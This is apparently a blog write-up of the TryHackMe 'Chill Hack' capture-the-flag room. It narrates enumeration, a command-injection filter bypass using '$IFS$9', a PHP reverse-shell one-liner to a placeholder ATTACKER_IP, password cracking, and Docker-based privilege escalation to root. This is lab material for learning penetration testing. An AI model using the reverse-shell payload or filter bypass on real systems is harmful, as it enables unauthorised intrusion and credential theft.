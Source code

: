 ```yaml
---
layout: post
title: THM Chill Hack writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/chillhack/0.head.png">
<!--more-->
<a href="https://tryhackme.com/room/chillhack" target="_blank" > Click here to access this box on TryHackMe.com</a>
<hr>
<p>Start by enumerating  ports with an NMAP Scan.</p>
<p>In the output below we can see that FTP (port 21) and SSH (port 22) are open. There’s also an apache  web server running on port 80</p>
<p>First let see what's in the note.txt file on the FTP service since anonymous login is allowed</p>
<img src="/img/chillhack/1.nmap.png">

<p>login with “anonymous:anonymous” </p>
<img src="/img/chillhack/2.ftp-login.png">

<p>Download (GET) the note.txt file.</p>
<img src="/img/chillhack/3.ftp-note-dl.png">

<p>Read the contents of the file.</p>
<p> This isn’t very helpful right now, but will take note of this. </p>
<p> Let’s enumerate the webserver in our web browser</p>
<img src="/img/chillhack/4.note-text.png">

<p>We have a web page that appears to be dedicated to  pseudo soccer teams.</p>
<p>I spent some time enumerating all the input fields and links. All of them appear to be “dummy” place holders. Let’s try and enumerate the sub directories. </p>  
<img src="/img/chillhack/5.home-webpage.png">

<p>Let’s run dirbuster first.</p>
<img src="/img/chillhack/6.dirbuster.png">

<p>From the output below we see there’s a directory named “secret”. Let’s navigate to the page</p>
<img src="/img/chillhack/7.dirbuster2.png">

<p>When we navigate to that page we’re presented with an input box that says command. Let’s try and issue some commands. Since we know from NMAP this is probably a Liux box let’s try some bash commands</p>
<img src="/img/chillhack/8.secret-page.png">

<p>If we type “id" command we get a response in our web browser. Let’s try and get a use net cat to get a basic reverse shell.</p>
<img src="/img/chillhack/9.id-input.png">

<p>First let’s set up a listener on our attacking machine to catch the shell.</p>
<img src="/img/chillhack/10.nc-listner.png">

<p>Okay, I didn't think it would be that easy. This must be what the note.txt in the FTP server was speaking to. They're filtering out some keywords - “nc” appears to be one on the list</p>
<img src="/img/chillhack/11.nc-fail.png">

<p>I tried using Burp Suite to send the POST request to try and bypass any client side scripting that may be filtering input data. That didn’t work</p>
<img src="/img/chillhack/12.burp.png">

<p>After fuzzing the input data for a while, I found a way to defeat the input filtering by using “$IFS$9” (this will be interpreted as a white space on the server) for white spaces. I’m assuming there’s an input validation that has a hard coded list of black listed keywords. E.g.  'nc', 'python', 'bash','php','perl', etc… If we take the command “nc -e” and replace the withe space with “nc$IFS$9-e” we can get the command to execute without triggering the input validation filter.  </p>
<img src="/img/chillhack/13.input-trick.png">

<p>Altho this trick worked I couldn’t get a shell to “pop” using any net cat commands. I used a PHP one-liner and “popped” a reverse shell: php$IFS$9-r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'  </p>
<img src="/img/chillhack/14.php-1liner.png">

<p>And we have a non interactive shell running as www-data. Let’s upgrade this to pseudo interactive.</p>
<img src="/img/chillhack/15.first-shell.png">

<p>Using this python 3 command we can get a pseudo interactive shell and start enumerating.</p>
<img src="/img/chillhack/16.psudo-i-shell.png">

<p>Looking through the file system there's an interesting  directory named “files” that we have read access to. There’s also a folder named images that I downloaded on to my machine.</p>
<img src="/img/chillhack/17.files.png">

<p>When we cat the index.php file we find a mysql user name and password. Let’s note these and see if we can connect to the mysql server. </p>
<img src="/img/chillhack/18.mysql-creds.png/">

<p>We’re connected to the SQL database. Let’s begin enumerating.</p>
<img src="/img/chillhack/19.mysql-login.png">

<p>The webportal table looks interesting. Let’s see what  tables it has.. </p>
<img src="/img/chillhack/20.mysql-tables.png">

<p>Let’s see if we can get any user creds from this table.</p>
<img src="/img/chillhack/21.mysql-table.png">

<p>Great, we have usernames and passwords. These passwords are hashed with  MD5. Let see if Crakstation.net can crack these before we try hashcat</p>
<img src="/img/chillhack/22.user-password-hashed.png">

<p>They were very weak passwords and crackstation.net was able to crack both. Let’s note the user names and password and keep enumerating. </p>
<img src="/img/chillhack/23.crack-station.png">

<p>Let’s check the images we download from the images folder on the server. First let’s try the .jpg and see if these any hidden data in it.</p>
<img src="/img/chillhack/">

<p>Using steghide I was able to extract a file named backup.zip. Let’s unzip and see what’s inside.</p>
<img src="/img/chillhack/24.backup-.zip-file.png">

<p>It’s password protected. I tried the three passwords I captured earlier but these didn’t work. let ‘s try and bruteforce the password.</p>
<img src="/img/chillhack/25.unzip-pass-pro.png">

<p>using fcrackzip and the rockyou password list it quickly found the password.</p>
<img src="/img/chillhack/26.zip_password-cracked.png">

<p>using fcrackzip and the rockyou password list it quickly found the password.</p>
<img src="/img/chillhack/26.zip_password-cracked.png">

<p>Let’s see what’s inside. When we unzip the file we find another file named source_code.php. There’s credentials hardcoded in this php, but it’s base64 encoded.</p>
<img src="/img/chillhack/27.creds-again.png">

<p>Let’s decode the password</p>
<img src="/img/chillhack/28.base64-d.png">


<p>Let’s see if we can use these creds to ssh in so we have a more stable shell</p>
<img src="/img/chillhack/">

<p>Success. Now let’s enumerate for priv esc.</p>
<img src="/img/chillhack/29.ssh-shell.png">

<p>We’re in the Docker group. This looks like a potential priv esc path.</p>
<img src="/img/chillhack/30.docker-group.png">

<p>A quick check on GTFO bins.</p>
<img src="/img/chillhack/31.gtfo-bins.png">
<p>And we are root. Let’s cat our flags.</p>
<img src="/img/chillhack/32.we-are-root.png">
<p>User flag.</p>
<img src="/img/chillhack/33.user-flag.png">
<p>And the root flag. This was a really fun box!!</p>
<img src="/img/chillhack/34.root-flag.png">




